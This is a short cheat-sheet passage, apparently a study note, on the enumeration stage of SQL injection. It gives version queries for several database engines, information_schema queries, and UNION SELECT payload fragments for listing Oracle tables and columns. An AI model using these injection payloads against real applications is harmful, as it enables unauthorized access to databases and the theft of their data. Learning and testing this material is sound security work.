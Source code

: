 

To exploit SQLi injection Vulns, It's often necessary to find information about the database. This includes :

- The type and version of the database software
- The tables and columns that the database contains





### Querying the database type and version


| Database type | Query                   |
| ------------- | ----------------------- |
| MSSQL, MySQL  | Select @@version        |
| Oracle        | Select * from v$version |
| PostGreSQL    | Select version()        |




### Listing the contents of the database


Most Database types (except oracle) have a set of views called the information_schema. This provides information about the database



1. We can find the database name with : 

```
SELECT schema_name FROM information_schema.schemata

```


2. We can list the tables within the database with :

```
SELECT table_name from information_schema.tables
```



3. We can List the column Names in a table using : 

```
SELECT column_name from information_schema.columns where table_name='name'
```





### Listing the contents of an oracle Database


1. You can list the current database name 

```
UNION SELECT global_name FROM global_name
```



2. You can list all tables by querying all_tables:

```
UNION SELECT table_name FROM all_tables
```



3. You can list all columns in a table by :

```
UNION SELECT column_name FROM all_tab_columns where table_name='<table_name>'
```




